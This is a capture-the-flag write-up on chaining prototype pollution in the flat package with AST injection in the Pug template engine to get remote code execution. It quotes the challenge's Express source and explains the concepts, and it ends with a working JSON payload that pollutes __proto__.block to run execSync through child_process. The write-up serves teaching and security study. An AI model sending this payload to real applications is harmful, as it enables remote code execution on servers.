

This challenge covers prototype pollution, into AST injection, leading to RCE.

I'm not a Javascript expert by any means so this challenge gave me a lot of insight into how prototypes, and objects work in Javascript. So without further ado let's cover this challenge.

At the bottom of the webpage, there's a text box that asks for our favorite artist.

Naturally I'm my own favorite artist but the website doesn't agree.


After trying so other random input, I was getting the same.

So let's take a look at the source code.

<mark>index.js</mark>

```javascript
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```

Haigh, Westaway, and Gingell?


As expected, including those names gives us a different output.
Let's dissect this further.

The artist variable is the unflattened request body.
Unflatten, comes from the flat package, which takes a nested javascript object, and flattens it.
For example, if we had an object ```{user.name: gloof}```. If we unflattened it, it would become ```{name: gloof}```.


Here, the api receives ```{"artist.name": "Haigh Westaway Gingell"}```, flattens it into the "artist", then checks if it contains "Haigh", "Westaway", and "Gingell".

Next, the API calls "pug" to render this template to the page.
```'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })```.

This template, takes user as an argument, and the argument is set to "guest".

If was playing around with the website, trying to get basic SSTI to work, to no avail. So then I check the package.json, and looked to see if these packages were vulnerable.

<mark>package.json</mark>
```json
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}
```




Hmm, Flat is vulnerable to prototype pollution, and Pug has an RCE vulnerability. This is definitely our ticket to the flag.
Thus this requires some explaination. First lets go over prototype pollution.

# Prototype Pollution

According to [PortSwigger](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution), prototype pollution is a vulnerability in where an attack can inject properties into global objects.

In other object oriented programming languages, such as C++, inheritance is accomplished through class-based inheritance. Because the class blueprint is compiled into the code and instatiated at runtime as a separate data type. However in Javascript, inheritance is accomplished through prototypal-based inheritance. Prototypes are not instatiated, rather they themselves are objects. When an object uses another objects prototype, it takes on all of the properties of its parent object through a chain of prototypes.

If we could inject properties in to the global object, every subsequent object will take on those default properties.

Let's try the example given on Snyk and see if it works.

<mark>index.js</mark>

```javascript
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);
	console.log(polluted) // <- Added this

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});
```

We'll send this request to the server, and see if we get true in the console.
```json
{"artist.name":"Haigh Westaway Gingell", "__proto__.polluted":true}
```


Would you look at that, it works!

So we could leverage prototype pollution to pass unsafe arguments, and set variables in our code. This could used for a multitude of things such as XSS, or even RCE, through the use of gadgets (Functions that can be used as jumping points for other exploits), and Pug has just the right gadget for this.

# AST Injection

To first understand what AST injection is, we first need to know what an Abstract Syntax Tree (AST) is. In short, an abstract syntax tree breaks code down into tokens, through a lexical analyzer. This would be like pointing out the nouns, verbs, and adjectives in a sentence. We then parse it, into an abstract syntax tree, giving the compiler the structure of your code. This AST is then run through the compiler in order to generate your code.


In Pug's case, the compiler compiles your template into a template function, and then runs it as Javascript code. (AST's are typically used for template engines, and compilers BTW).

If we were able to inject arbitrary values during the lexical analysis phase, or compilation phase, that could lead to RCE, depending on how the template engine uses what it is we passed.


To explain further, I'm going to refer to [this blog post](https://blog.p6.is/AST-Injection/#Pug) by POSIX on how this can be exploited in this version of Pug. This one will be a brief overview so please check out the post if you want to know more.

Look at this function here.

<mark>/node_modules/pug-code-gen/index.js</mark>

```javascript
if (debug && node.debug !== false && node.type !== 'Block') {
    if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
            js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
    }
}
```

This function will run if **Pug's debug is set to true**, **Pug's type is not set to "Block"**.

It will take the line number, then find the filename which this line number corresponds to, and put it on the buffer to be compiled.
The issue here, is that Pug expects the line number to be an integer, so if we pass a string to it, it evaluates it.

## Exploit method

So our exploit method is as follows:

* Use Flat's prototype pollution to inject the property **block**.
* Set the **block** property to text, and give it some javascript to evaluate.
* When Pug.compile is called, the compiler will run our code giving us RCE.

Let's try it out.

Here is our payload


And our output:


It works!

Now the issue is that it doesn't output anything to the screen. This is because we cannot redirect the output from the terminal onto the screen. However, should the command fail, Node will give us the sterr on an error screen. So if we cause an error, which will reflect the contents of the file to stderr to the page, then we can get our flag. For this we'll use python to cause the contents of the flag to be redirected to stderr.

<mark>Payload</mark>

```json
{"artist.name":"Haigh Westaway Gingell", "__proto__.polluted":true,
"__proto__.block":{"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('python flag*').toString())"}}
```

<mark>Output</mark>


And there is our flag! Spin up an instance and get your flag too!